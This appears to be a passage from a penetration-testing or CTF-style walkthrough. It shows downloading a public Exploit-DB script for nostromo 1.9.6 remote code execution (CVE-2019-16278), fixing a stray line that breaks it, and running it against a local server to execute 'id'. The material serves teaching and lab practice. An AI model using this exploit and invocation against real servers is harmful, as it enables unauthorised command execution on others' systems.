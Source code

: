 Lucky us, the top result happens to be an exploit script. Let's download it and try to get code execution. Running this script on its own teaches us a very important lesson.

```
user@linux$ python 47837.py
Traceback (most recent call last):
  File "47837.py", line 10, in <module>
    cve2019_16278.py
NameError: name 'cve2019_16278' is not defined
```

Exploits you download from the Internet may not work the first time. It helps to understand the programming language the script is in so that, if needed, you can fix any bugs or make any modifications, as quite a few scripts on Exploit-DB expect you to make modifications.

Fortunately, the error was caused by a line that should have been commented out, so it's an easy fix.

```
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

cve2019_16278.py  # This line needs to be commented.

#!/usr/bin/env python
``` 

Fixing that, let's try and run the program again.

```
user@linux$ python2 47837.py 127.0.0.1 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Fri, 03 Feb 2023 04:58:34 GMT
Server: nostromo 1.9.6
Connection: close

uid=1001(_nostromo) gid=1001(_nostromo) groups=1001(_nostromo)
```
